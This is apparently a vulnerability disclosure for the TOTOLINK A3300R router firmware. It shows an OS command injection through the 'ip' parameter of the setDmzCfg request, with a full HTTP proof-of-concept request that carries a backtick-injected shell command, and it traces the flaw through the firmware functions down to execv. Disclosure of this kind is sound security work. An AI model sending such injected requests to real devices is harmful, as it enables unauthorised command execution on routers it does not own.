 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection
### Discoverer
Yangyi
## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/3/img/image-20240109124617070.png)

## Vulnerability Description

When deal with  `setDmzCfg` request,`ip` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=F30C610BF2E2EC8B HTTP/1.1
Host: itotolink.net
Content-Length: 75
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/dmz.html?token=F30C610BF2E2EC8B
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"enable":"1","ip":"192.168.0.205`ls>/web/456.txt`","topicurl":"setDmzCfg"}
```

injection the command "ls>/web/456.txt"

![image-20240109132224609](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/4/img/image-20240109132224609.png)

check the result.

```
GET /456.txt HTTP/1.1
Host: itotolink.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://itotolink.net/advance/dmz.html?token=F30C610BF2E2EC8B
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
```

![image-20240109132231143](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/4/img/image-20240109132231143.png)

## Analysis

sub_41B368 will handle the `setDmzCfg` request. sub_41B368 get `ip` parameter from request body, then pass to `Uci_Set_Str` function.

![image-20240109132128999](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/4/img/image-20240109132128999.png)

`Uci_Set_Str` function Splicing uci command, and pass to `CsteSystem` function.

![image-20240109131204077](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/3/img/image-20240109131204077.png)

`CsteSystem` wraps the command and then passes it to `execv` to execute the command.

![image-20240109131330610](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/3/img/image-20240109131330610.png)
